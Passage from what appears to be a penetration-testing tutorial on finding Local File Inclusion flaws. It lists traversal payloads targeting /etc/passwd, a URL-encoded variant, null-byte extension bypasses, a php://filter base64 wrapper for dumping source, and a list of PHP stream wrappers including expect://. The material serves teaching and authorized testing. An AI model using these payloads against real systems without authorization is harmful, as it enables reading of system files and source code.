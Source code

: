 After finding parameters that takes files as input, it's time to test for LFI. There are some steps you can follow to get better understanding of how application handles input file:

### Manual

1. **Directory Traversal:** Attempt to traverse directories to access sensitive files.

   ```
   /etc/passwd
   ../../../etc/passwd
   ../../../../var/www/html/index.php
   ```

2. **URL Encoding:**  Encodes characters in the URL.

   ```
   ../../../etc/passwd --> %2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
   ```

   

3. **Use Null Byte to bypass file  extensions: **Use `%00` to terminate file extensions in PHP.

   ```
   ../../etc/passwd%00
   ../../etc/passwd%00.jpg
   ../../etc/passwd%00.php
   ```

4. **PHP Wrappers: **PHP stream wrappers can help access file contents in alternative formats:

   ```
   php://filter/convert.base64-encode/resource=index.php
   ```

   Decode the response to analyze sensitive data.

   > Another useful wrappers:
   >
   > - [file://](https://www.php.net/manual/en/wrappers.file.php) — Access local filesystem
   >
   > - [http://](https://www.php.net/manual/en/wrappers.http.php) — Access HTTP(s) URLs
   >
   > - [ftp://](https://www.php.net/manual/en/wrappers.ftp.php) — Access FTP(s) URLs
   >
   > - [php://](https://www.php.net/manual/en/wrappers.php.php) — Access various I/O streams
   >
   > - [zlib://](https://www.php.net/manual/en/wrappers.compression.php) — Compression Streams
   >
   > - [data://](https://www.php.net/manual/en/wrappers.data.php) — Data (RFC 2397)
   >
   > - [glob://](https://www.php.net/manual/en/wrappers.glob.php) — Find pathnames matching pattern
   >
   > - [phar://](https://www.php.net/manual/en/wrappers.phar.php) — PHP Archive
   >
   > - [ssh2://](https://www.php.net/manual/en/wrappers.ssh2.php) — Secure Shell 2
   >
   > - [rar://](https://www.php.net/manual/en/wrappers.rar.php) — RAR
   >
   > - [ogg://](https://www.php.net/manual/en/wrappers.audio.php) — Audio streams
   >
   > - [expect://](https://www.php.net/manual/en/wrappers.expect.php) — Process Interaction Streams
